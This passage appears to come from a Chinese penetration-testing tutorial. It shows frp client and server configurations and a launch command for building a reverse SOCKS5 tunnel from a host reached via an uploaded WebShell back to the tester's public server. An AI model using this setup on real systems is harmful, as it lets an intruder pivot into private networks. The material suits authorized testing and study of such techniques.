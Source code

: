 很简单，frpc 是客户端，frps 是服务端

[![](assets/1703210060-30bad2f1824b122fbdbbf7ee60c5e9bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205110407-f432e73a-931a-1.png)

配置`frpc.ini`:

```plain
# frpc.ini
[common]
server_addr = 自己公网服务器地址
server_port = 7000

[frp]
type = tcp
remote_port = 6000
plugin = socks5    //这一句必须要加，不然代理连不上
```

客户端通过 WebShell 上传，frps 上传到自己的公网服务器上，配置`frps.ini`:

```plain
# frps.ini
[common]
bind_port = 7000
```

接下来要在自己的公网服务器上开 6000 和 7000 这两个端口，并执行命令进行监听：

```plain
./frps -c ./frps.ini
```
